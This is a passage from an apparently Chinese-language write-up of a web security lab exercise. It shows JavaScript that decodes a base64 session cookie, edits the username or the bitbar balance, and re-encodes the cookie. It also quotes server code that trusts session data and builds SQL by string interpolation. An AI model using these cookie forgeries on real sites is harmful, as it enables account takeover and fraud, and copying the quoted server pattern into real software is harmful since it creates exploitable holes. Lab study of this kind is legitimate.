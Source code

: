 ```js
    },
    removeItem: function (sKey, sPath, sDomain) {
        if (!sKey || !this.hasItem(sKey)) { return false; }
        document.cookie = encodeURIComponent(sKey) + "=; expires=Thu, 01 Jan 1970 00:00:00 GMT" + (sDomain ? "; domain=" + sDomain : "") + (sPath ? "; path=" + sPath : "");
        return true;
    },
    hasItem: function (sKey) {
        return (new RegExp("(?:^|;\\s*)" + encodeURIComponent(sKey).replace(/[-.+*]/g, "\\$&") + "\\s*\\=")).test(document.cookie);
    },
    keys: /* optional method: you can safely remove it! */ function () {
        var aKeys = document.cookie.replace(/((?:^|\s*;)[^\=]+)(?=;|$)|^\s*|\s*(?:\=[^;]*)?(?:\1|$)/g, "").split(/\s*(?:\=[^;]*)?;\s*/);
        for (var nIdx = 0; nIdx < aKeys.length; nIdx++) { aKeys[nIdx] = decodeURIComponent(aKeys[nIdx]); }
        return aKeys;
    }
};

let ses = docCookies.getItem("session");
let info_s = b64_to_utf8(ses);
let info = JSON.parse(info_s);

console.log(info_s);

info.account.username = "user1";
info_s = JSON.stringify(info);
ses = utf8_to_b64(info_s);

console.log(info_s);

document.cookie = "session=" + ses;
```

### Cooking the Books with Cookies

看源码 router.js，会发现它在更新数据的时候原数目是直接从 session 里取的

```js
req.session.account.bitbars -= amount;
query = `UPDATE Users SET bitbars = "${req.session.account.bitbars}" WHERE username == "${req.session.account.username}";`;
await db.exec(query);
```

所以你直接对 cookie 改动，然后随便 trans 一下，这个东西就写到数据库里了。

答案如下，基本跟上一个是一样的

```js
var docCookies = {
    ...
};
let ses = docCookies.getItem("session");
let info_s = atob(ses);
let info = JSON.parse(info_s);
info.account.bitbars = 1000000000;
info_s = JSON.stringify(info);
ses = btoa(info_s);
document.cookie = "session=" + ses;
```
